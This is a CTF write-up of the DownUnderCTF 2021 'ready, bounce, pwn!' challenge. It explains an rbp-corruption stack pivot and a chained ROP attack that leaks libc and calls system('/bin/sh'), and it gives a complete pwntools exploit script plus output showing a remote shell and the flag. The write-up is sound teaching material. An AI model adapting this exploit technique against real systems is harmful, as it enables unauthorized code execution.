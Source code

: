 # DownUnderCTF 2021

## ready, bounce, pwn!

> 436  
>  
> Let's play with `rbp`.  
>  
> Author: joseph#8210  
>  
> `nc pwn-2021.duc.tf 31910`  
>  
> [`rbp`](rbp) [`libc.so.6`](libc.so.6)

Tags: _pwn_ _x86-64_ _stack-pivot_ _rop_ _remote-shell_

## Summary

The task description betrays the nature of this challenge; we're going to
stack pivot by corrupting `rbp`.

This challenge has a constrained buffer for our ROP chain, so some creativity
will be required.

## Analysis

### Checksec

```  
   Arch:     amd64-64-little  
   RELRO:    Partial RELRO  
   Stack:    No canary found  
   NX:       NX enabled  
   PIE:      No PIE (0x400000)  
```

Partial RELRO = GOT overwrite; No PIE = Easy ROP; No canary = Easy BOF.

### Decompile with Ghidra  

```c  
undefined8 main(EVP_PKEY_CTX *param_1)  
{  
 undefined local_28 [32];  
  
 init(param_1);  
 printf("Hi there! What is your name? ");  
 read(0,local_28,0x18);  
 puts("That is an interesting name.");  
 printf("Do you have a favourite number? ");  
 read_long();  
 return 0;  
}  
```

Nothing interesting here, however if you look at the disassembly you see that
whatever is returned (`rax`) from `read_long()` is added to `rbp` (`add
rbp,rax`):

```  
 401239:        e8 6b ff ff ff          call   4011a9 <read_long>  
 40123e:        48 01 c5                add    rbp,rax  
 401241:        b8 00 00 00 00          mov    eax,0x0  
 401246:        c9                      leave  
 401247:        c3                      ret  
```

IOW, a free stack pivot.  Recall that `leave` is really `mov rsp,rbp; pop
rbp`.  On `leave`, `rsp` will be `rbp` + whatever we added to it _less 8 (see
below)_.

Clearly we'd like to pivot to the top of our buffer for a ROP chain:

```  
0x00007fffffffe350│+0x0000: "AAAAAAAA"   ← $rsp  
0x00007fffffffe358│+0x0008: "BBBBBBBB"  
0x00007fffffffe360│+0x0010: "CCCCCCCC"  
0x00007fffffffe368│+0x0018: 0x0000000000000000  
0x00007fffffffe370│+0x0020: 0x0000000000000000   ← $rbp  
```

`read(0,local_28,0x18);` will `read` `24` (`0x18`) bytes limiting our ROP
chain to (3) 64-bit gadgets.  Above I entered `AAAAAAAABBBBBBBBCCCCCCCC` into
`read` as gadget placeholders.

`rbp` is currently `0x00007fffffffe370`, to move `rsp` to the start of our
buffer we'll need to _add_ `-0x20` (`-32`), however recall what I stated about
`leave` (above); right after the `mov rsp,rbp` is a `pop rbp`, so we'll need
an extra `-8` bytes _added_.  In short, `-40` entered to `read_long` will move
`rsp` to our buffer and start our ROP chain.

The classic ROP chain:

```  
p64(pop_rdi)  
p64(binary.got.puts)  
p64(binary.plt.puts)  
p64(binary.sym.main)  
```

_Catch leak, then..._

```  
p64(pop_rdi)  
p64(libc.search(b'/bin/sh').__next__())  
p64(libc.sym.system)  
```

To leak libc, loop back to main, then get a shell isn't going to fit in `24`
(`0x18`) bytes, however there's other gadgets we can use to breakup our ROP
chain into smaller chains we can then chain together (details in the Exploit
section below).

## Exploit

```python  
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./rbp')

if args.REMOTE:  
   p = remote('pwn-2021.duc.tf', 31910)  
   libc = ELF('./libc.so.6')  
else:  
   p = process(binary.path)  
   libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')  
```

Above, the standard pwntools header.

```python  
pop_rdi = binary.search(asm('pop rdi; ret;')).__next__()  
pop2 = binary.search(asm('pop r14; pop r15; ret;')).__next__()  
```

We'll need a couple of gadgets.  Since there's no PIE there's no need to leak
a base process address; we can just search the binary for the gadgets we need.
The first `pop_rdi` is standard fare ROP chain, then second comes from
`__libc_csu_init`; there's a variable number of `pop`s that we can use to move
`rsp` down stack.  This is how we'll continue on with our fragmented ROP
chain.

```python  
payload  = b''  
payload += p64(binary.sym.main)  
payload += p64(binary.plt.puts)  
payload += p64(binary.sym.main)

p.sendafter(b'name? ', payload)  
p.sendafter(b'number? ', b'-40')  
```

The first pass may look a bit counter intuitive, our code will immediately
loop back to `main`, however `main` will create a new stack frame leaving this
dirty dirty frame behind.

```python  
payload  = b''  
payload += p64(pop_rdi)  
payload += p64(binary.got.puts)  
payload += p64(pop2)

p.sendafter(b'name? ', payload)  
p.sendafter(b'number? ', b'-40')

libc.address = u64(p.recv(6) + b'\0\0') - libc.sym.puts  
log.info('libc.address: ' + hex(libc.address))  
```

The second pass starts to look like a classic ROP chain.  That `pop2` will
move `rsp` down stack to the `binary.plt.puts` gadget above, then `main`, and
we get to start over again, however we now have a libc leak.

Here what the stack looks like just before the end of `main` (just before the
stack pivot to our 2nd ROP chain):

```  
0x00007ffd6a261cd0│+0x0000: 0x00000000004012b3  →  <__libc_csu_init+99> pop
rdi  ← $rsp  
0x00007ffd6a261cd8│+0x0008: 0x0000000000404018  →  0x00007f07996a55a0  →
<puts+0> endbr64  
0x00007ffd6a261ce0│+0x0010: 0x00000000004012b0  →  <__libc_csu_init+96> pop
r14  
0x00007ffd6a261ce8│+0x0018: 0x000000000040123e  →  <main+105> add rbp, rax  
0x00007ffd6a261cf0│+0x0020: 0x000000000040123e  →  <main+105> add rbp, rax  
0x00007ffd6a261cf8│+0x0028: 0x0000000000401030  →  <puts@plt+0> jmp QWORD PTR
[rip+0x2fe2]        # 0x404018 <[email protected]>  
0x00007ffd6a261d00│+0x0030: 0x00000000004011d5  →  <main+0> push rbp  
```

Observe that `pop rdi` will be called on `main` `ret`, popping the location of
`puts` into `rdi`, next is the `pop r14` from our `pop2` gadget curtesy of
`__libc_csu_init`, that `pop2` gadget will pop off the next to stack lines
moving `rsp` to `puts@plt`, effectively calling `puts` to leak libc.  Lastly
it's back to `main`.

```python  
payload  = b''  
payload += p64(pop_rdi)  
payload += p64(libc.search(b'/bin/sh').__next__())  
payload += p64(libc.sym.system)

p.sendafter(b'name? ', payload)  
p.sendafter(b'number? ', b'-40')  
p.interactive()  
```

Third pass.  We have the location of libc, so just get a shell.

Output:

```bash  
# ./exploit.py REMOTE=1  
[*] '/pwd/datajerk/downunderctf2021/rbp/rbp'  
   Arch:     amd64-64-little  
   RELRO:    Partial RELRO  
   Stack:    No canary found  
   NX:       NX enabled  
   PIE:      No PIE (0x400000)  
[+] Opening connection to pwn-2021.duc.tf on port 31910: Done  
[*] '/pwd/datajerk/downunderctf2021/rbp/libc.so.6'  
   Arch:     amd64-64-little  
   RELRO:    Partial RELRO  
   Stack:    Canary found  
   NX:       NX enabled  
   PIE:      PIE enabled  
[*] libc.address: 0x7fdfab89d000  
[*] Switching to interactive mode  
$ cat flag.txt  
DUCTF{n0_0verfl0w?_n0_pr0bl3m!}  
```  

Original writeup (https://github.com/datajerk/ctf-write-
ups/tree/master/downunderctf2021/rbp).